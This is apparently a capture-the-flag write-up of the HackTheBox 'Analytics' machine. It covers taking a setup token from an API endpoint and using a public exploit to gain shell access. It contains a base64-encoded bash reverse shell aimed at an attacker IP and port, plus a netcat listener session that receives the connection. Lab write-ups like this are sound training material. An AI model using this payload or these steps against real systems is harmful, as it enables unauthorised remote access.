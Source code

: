 ### Setup
After finding the exploit and reading through it, I saw that I had to replace few sections and add my own rev shell code in there. 

![[Pasted image 20231010154225.png]]

### Getting the token
So I visited "/api/session/properties" and looked for the setup token and put it to the side.

![[Pasted image 20231010154345.png]]
```
setup-token	"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```
### Shell generation
After I got the token, I generated a shell and put that to the side. (make sure that your encoded shell does not have "=" anywhere.)

![[Pasted image 20231010154449.png]]

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0NCAwPiYx
```

### Shell
After getting all the required items, I launched burpsuite and got a sample request. I then replaced that request with malicious one and sent that to repeater. I then ran the Request to get initial shell back.

![[Pasted image 20231010154714.png]]

![[Pasted image 20231010154858.png]]

![[Pasted image 20231010154927.png]]

```
┌──(root㉿kali)-[~/Documents/Notes/hackthebox/Analytics]
└─# nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.149.35] 45844
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
28b3b7e265f7:/$ 
```

